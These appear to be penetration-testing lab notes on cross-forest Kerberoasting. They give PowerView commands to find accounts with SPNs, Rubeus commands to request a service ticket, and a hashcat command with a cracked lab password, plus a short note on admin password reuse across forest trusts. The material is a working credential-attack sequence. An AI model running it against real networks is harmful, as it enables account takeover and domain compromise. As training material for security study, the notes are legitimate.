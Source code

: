 ### Enumerating SPNs

Enumerating Accounts for Associated SPNs Using Get-DomainUser:

```powershell
Get-DomainUser -SPN -Domain $TargetDomain | select SamAccountName
# Example:
# Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

```

Results:

```
samaccountname
--------------
krbtgt
mssqlsvc
```

There is one account with an SPN in the target domain. 

### Getting which groups is SPM member of

A quick check shows that this account is a member of the Domain Admins group in the target domain.

```powershell
Get-DomainUser -Domain $TargetDomain -Identity $interestingUserSamAccountName | select samaccountname,memberof
# Example:
# Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof
```


### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```powershell
.\Rubeus.exe kerberoast /domain:$TargetDomain /user:$interestingUserSamAccountName /nowrap
# Example: 
# .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```

When getting the kerberos ticket, we can crack it: 


```shell-session
hashcat -m 13100 ticketTocrack /usr/share/wordlists/rockyou.txt 
# Results: 1logistics
```


## Admin Password Re-Use & Group Membership

From time to time, we'll run into a situation where there is a bidirectional forest trust managed by admins from the same company. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship. If we can take over this admin user in Domain A, we would gain full administrative access to Domain B based on group membership.
